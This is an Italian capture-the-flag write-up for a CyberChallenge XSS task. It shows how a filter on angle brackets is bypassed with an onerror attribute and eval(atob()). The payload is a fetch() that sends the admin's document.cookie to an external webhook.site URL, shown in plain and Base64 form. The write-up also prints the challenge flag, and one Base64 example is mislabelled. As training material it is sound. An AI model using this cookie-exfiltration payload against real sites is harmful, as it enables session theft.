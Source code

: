 # Writeup: WS_3.03 - XSS Simple 3

## Overview
- **Categoria**: Web  
- **Autore**: bonaff  
- **Difficoltà**: 481  
- **Stato**: Up (last checked: 9 minutes ago)  
- **URL**: [http://xss3.challs.cyberchallenge.it/](http://xss3.challs.cyberchallenge.it/)

## Descrizione 📝
Terza challenge della serie di 5 dedicate all’**XSS**. L’obiettivo rimane ottenere il cookie dell’admin. A differenza dei livelli precedenti, il server sostituisce i caratteri `<` e `>` con le relative entità HTML (`&lt;` e `&gt;`), rendendo inutili i payload più semplici come `<img src="x" onerror="...">`.

## Soluzione 🎯

### 1. Bypass dei Filtri
Poiché i caratteri `<` e `>` vengono sostituiti, non possiamo inserire direttamente tag HTML. Dobbiamo trovare un modo alternativo per eseguire codice JavaScript. Una strategia comune è sfruttare funzioni come `eval()` e `atob()` per decodificare del JavaScript in Base64.

#### Esempio Base64
- `alert(1)` diventa `amF2YXNjcmlwdDphbGVydCgxKQ` in Base64, e può essere eseguito con:
  ```js
  eval(atob('amF2YXNjcmlwdDphbGVydCgxKQ'))
  ```
  
### 2. Generazione del Payload Finale
Per esfiltrare il cookie, usiamo `fetch()` verso il nostro webhook. Convertiamo in Base64 la stringa:
```js
fetch('https://webhook.site/7abedc77-d3eb-4ea9-8a94-f613d72088c8', {method: 'POST', body: document.cookie})
```
Supponiamo che la codifica Base64 generi qualcosa come `ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzdhYmVkYzc3LWQzZWItNGVhOS04YTk0LWY2MTNkNzIwODhjOCcsIHttZXRob2Q6ICdQT1NUJywgYm9keTogZG9jdW1lbnQuY29va2llfSkK`.

A questo punto, iniettiamo il payload in un attributo che non viene filtrato, ad esempio `onerror` di un’immagine inesistente, ma senza `<` e `>`:
```
x" onerror="eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzdhYmVkYzc3LWQzZWItNGVhOS04YTk0LWY2MTNkNzIwODhjOCcsIHttZXRob2Q6ICdQT1NUJywgYm9keTogZG9jdW1lbnQuY29va2llfSkK'))"
```
Quindi costruiamo l’URL di “report” che verrà inviato all’admin:
```
http://xss3.challs.cyberchallenge.it/?html=x" onerror="eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzdhYmVkYzc3LWQzZWItNGVhOS04YTk0LWY2MTNkNzIwODhjOCcsIHttZXRob2Q6ICdQT1NUJywgYm9keTogZG9jdW1lbnQuY29va2llfSkK'))"
```

### 3. Raccolta della Flag
Quando l’admin visita il link, il JavaScript decodificato verrà eseguito e invierà il cookie dell’admin al nostro webhook. Analizzando i log del webhook, otteniamo:

## Flag 🏁
```
CCIT{c5b32a392ba56f4fa3c2e41fa6b89fb5}
```

## Lezioni Apprese 📚
1. **Sanitizzazione Parziale**: Anche se il server converte `<` e `>` in entità HTML, esistono altri vettori per eseguire codice, come `eval(atob())`.  
2. **Base64**: È un metodo efficace per aggirare filtri che bloccano stringhe JavaScript “in chiaro”.  
3. **CSP e Filtri Avanzati**: In sfide reali, potrebbero esserci ulteriori protezioni come `Content-Security-Policy`. Tuttavia, in questa challenge, l’uso di `eval` e `atob` resta possibile.

## Tools Utilizzati 🛠️
- **Browser**: Per testare l’URL generato.  
- **Webhook.site**: Per ricevere il cookie dell’admin.  
- **Base64 Encoder**: Per convertire la stringa JavaScript in Base64.

---

*Writeup by Luca Crippa - Last Updated: 2024*
